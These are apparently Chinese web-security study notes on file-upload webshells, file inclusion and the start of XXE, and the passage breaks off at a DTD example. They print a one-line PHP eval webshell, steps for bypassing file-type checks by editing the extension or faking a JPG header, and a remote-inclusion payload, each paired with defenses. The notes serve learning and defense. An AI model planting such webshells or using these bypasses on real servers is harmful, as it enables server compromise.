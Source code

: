 文件上传：上传webshell的过程

webshell的类型

- 一句话木马：客户端上传服务器要执行的语句。下面语句把POST传递的参数pass的值作为语句执行，当URL为xxx.php?pass=aaa时，即可执行aaa语句

    ```php
    <?php @eval($_POST['pass']);?>
    ```
- 大马：体积较大的Webshell

漏洞利用方法：

- 如何绕过浏览器的前端文件类型检查：直接在BurpSuite上修改请求里面的文件后缀字段
- 绕过后端文件类型检查：修改文件头。很多文件类型有固定的文件头，服务器只检查文件前n字节，修改文件头即可。例如只让上传jpg文件，就将Webshell的前N个字节，替换为JPG文件头

防御：

- 上传目录设置为不可执行
- 严格判断文件类型
- 随机生成文件名和文件路径



文件包含（File Inclusion）：在一个页面中通过include方法包含（引入）另外一个文件中的代码。但是如果通过变量引入了恶意文件并执行，就会造成文件包含漏洞

- 本地文件包含：打开并包含本地文件 的漏洞，获取文件路径：利用..遍历文件，日志文件。

- 远程文件包含：php的include(url)函数会获取指定文件中存在的所有文本/代码/标记，并复制到使用 include 语句的文件中。

```php
include($_GET['page'].".php");
# 如果page="http://example.com/mm.jpg?"，那么url里问号后面的部分.php会被当成查询字符串，原来的mm.jpg被成功包含
```

防御：

- 避免包含变量
- 设置open_basedir将用户访问文件的范围限制在指定的目录

#### 3.3 XXE与SSRF

XML：扩展标记语言，键值对形式

```xml
<?xml version="1.0"?>
<note name="test">
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me</body>
</note>
```

DTD（Document Type Definition，文档类型定义）：描述XML标记符的语法规则，用来约束XML文档，表示每个元素里面有什么类型的元素。
DTD中实体有两种：内部和引用，引用即使用&entity来引用一个外部的实体，容易导致引用过来的内容过大

```dtd
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```
